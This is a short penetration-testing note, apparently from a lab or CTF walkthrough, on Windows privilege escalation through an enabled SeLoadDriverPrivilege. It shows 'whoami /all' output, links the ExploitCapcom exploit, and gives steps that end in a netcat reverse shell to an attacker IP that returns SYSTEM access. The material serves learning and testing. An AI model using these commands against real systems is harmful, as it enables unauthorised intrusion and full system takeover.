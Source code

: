 ### Local enumeration

whoami /all

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

* This shows that <mark style="color:yellow;">SeLoadDriverPrivilege</mark> is <mark style="color:yellow;">enabled</mark> on this user

### PrivEsc vector

<mark style="color:yellow;">SeLoadDriverPrivilege</mark>&#x20;

### Exploitation

{% embed url="https://www.tarlogic.com/blog/abusing-seloaddriverprivilege-for-privilege-escalation/" %}

{% embed url="https://github.com/clubby789/ExploitCapcom/releases/download/1.0/ExploitCapcom.exe" %}
Exploit
{% endembed %}

1. Upload the exploit to the target
2. Upload nc.exe to the target
3. Execute the exploit with `./ExploitCapcom.exe`
4. Test exploit success with `./ExploitCapcom.exe EXPLOIT whoami`
5. Establish Netcat listener with `nc -lnvp 1337` on kali
6. Execute reverse shell with `./ExploitCapcom.exe EXPLOIT "nc.exe -e cmd.exe 10.10.16.17 1337"`

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption><p>SYSTEM</p></figcaption></figure>

### Research
